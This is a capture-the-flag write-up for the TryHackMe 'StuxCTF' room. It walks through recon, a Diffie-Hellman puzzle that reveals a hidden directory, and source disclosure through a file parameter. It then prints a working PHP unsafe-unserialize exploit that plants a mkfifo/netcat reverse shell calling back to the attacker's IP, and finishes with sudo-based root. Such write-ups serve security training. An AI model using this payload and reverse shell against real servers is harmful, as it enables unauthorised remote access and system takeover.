

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/stuxctf)  | Medium  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconn

Here we go with our best friend `nmap`

```bash
└──╼ $map stuxctf.thm
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 17:18 CEST
Nmap scan report for stuxctf.thm
Host is up (0.064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
(I added the IP of the machine to my /etc/hosts file, you can also do it with this code)
```bash
sudo echo "ip_machine stuxctf.thm" >> /etc/hosts
```

So, we have a web server running on port 80. Let's use `curl` to check it out.
```bash
╰─ lanfran@parrot ❯ curl stuxctf.thm
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>

```
Mmmm interesting. Let's see what the `robots.txt` has.

```bash
╰─ lanfran@parrot ❯ curl stuxctf.thm/robots.txt
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow: 
Disallow: /StuxCTF/
```

Okay, we have a directory (spoiler: it doesn't exists...) and a hint "Diffie-Hellman"...

Let's read the hint on the CTF's page:

```
What is the hidden directory?

HINT: g ^ a mod p, g ^ b mod p, g ^ C mod p

first 128 characters ... 
```

So googling "g^a mod p, g^b mod p, g^c mod p" we found 2 things:
- The creator of this rooms is using a Diffie-Hellman encryption. 
- [A writeup of a "QIWI - Crypto 300_1" lab, with a python code to decrypt the message.](https://razzk.net/posts/Crypto-300_1/)

```python 
#!/usr/bin/env sage -python

p=XXXXXXX
g=X
a=XXX
b=XXXX
gc=XXXXXXXX

gca = (gc**a) % p
gcab = (gca**b) % p

print "flag: ", str(gcab)[:20]
```
Let's edit to to work with our numbers.



Good! We have now the hidden directory, so let's navigate to it.

```bash
╰─ lanfran@parrot ❯ curl stuxctf.thm/4731502893726489553913132817[REDACTED]77039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>            
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

Hmmm, we have a index saying "_Follow the white rabbit.._"
And also a hidden hint: `<!-- hint: /?file= -->`

So maybe the PHP page it's waiting for the GET parameter "file" ??

It was tricky, because I tried with `etc/paswd` | apache logs | and every commoon directory, but nothing worked, so I tried with the `index.php` itself and it worked!


```bash
curl http://10.10.250.63/47315028937264895539131328176684350732[REDACTED]202704977050807800832928198526567069446044422855055/\?file\=index.php
3d3d67432b384349794a47502b7757623068324c386f67507641696369786a50355232626939435067414349676f67507641696369786a5030425861794e326376776a50694d6e617534576174354363684a48647a523362764a324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e5938344464776c6d636a4e334c38346a497a706d4c756c5762754d6a4c78456a4c78305365795657647870324c7a70324c7a52585a7a4e585969307a59794e484930425861794e32633841434967414349674143494b347a4c67496e593841434967414349674143496741434967346a647052324c3841434967414349674143494b347a4c67496e5938346a647052324c38414349674143496741434967414349676f67507641696369786a507956476475563259767754434a6b51434b347a4c67496e593834544d6f39435075344364704a6d59684a48496c5258616f6448496c68476467633362737832624735544d6f7854434a6b51434a6f67507641696369786a5079564764[...]79396d6379566d432b384349794a4750<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>            
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```
It returned a looong encoded text!

I used [this cyberchef recipe](https://tinyurl.com/5fu8tzc9) to decode it.

And we get the php code of the index.php file!

```php
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />

```
## Foothold - User

Analyzing the code, we can obtain some valuable information:
- A piece of the code it's creating a `class`
- The description of the room says: _"Crypto, **serealization**, priv scalation and more ...!"_ Giving us a hint, maybe we can get Remote code execution through unsafe unserialize in PHP.

For this, I searched for information on google, and I found a page explaining how to do it! [Here's the link](https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/).

So with this piece of code, we can get RCE!

```php
<?php
class file 
{
	public $file = 'this_is_totally_not_a_shell.php';
	public $data = "<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  your_TUN0_IP 1337 >/tmp/f') ?>";
}

$exploit = serialize(new file);
echo $exploit;
?>
```

This is what we are going to do:

- Run the php file, and save the code to a `.txt` file.
- Go to the folder in our local machine, and create a simple web server with python `sudo python3 -m http.server 80`.
- Go to the page, and in the `file` parameter we are going to put our `tun0` IP and the name of the .txt file.
- Run `netcat` to handle the reverse shell.
- Finally go to the file `this_is_totally_not_a_shell.php`.

1. 
```bash
╰─ lanfran@parrot ❯ php exp.php > not_a_shell.txt 
```

2.
```bash
╰─ lanfran@parrot ❯ sudo python3 -m http.server 80                                                                                 ─╯
[sudo] password for lanfran: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

3.
```bash
╰─ lanfran@parrot ❯ curl http://stuxctf.thm/473150289372648955391313281766843507325770399840230051892039938856873289[REDACTED]77050807800832928198526567069446044422855055/\?file\=http://your_TUN0_IP/not_a_shell.txt
File no Exist!<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
[...]
```
4.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
```

5.
```bash
╰─ lanfran@parrot ❯ curl http://stuxctf.thm/473150289372648955391313281766843507325770399840230051892039938856873289[REDACTED]77050807800832928198526567069446044422855055/this_is_totally_not_a_shell.php
```

Finally Profit.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.2.251] from (UNKNOWN) [10.10.250.63] 57118
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
Perfect!
We have now a reverse shell with user `www-data`.

Let's upgrade it with python.

Now we can read the user's flag
```bash
www-data@ubuntu:/home/grecia$ cat user.txt 
[REDACTED]
```
## Root

We ran `sudo -l` to see if the user's inside the sudoers, and we get the following output:
```bash
www-data@ubuntu:/home/grecia$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

WOW!

We can get to root simply running `sudo su` !!!!

```bash
www-data@ubuntu:/home/grecia$ sudo su
root@ubuntu:/home/grecia# cat /root/root.txt 
[REDACTED]
```
And we rooted the machine!

That's all from my side, hope you find this helpful!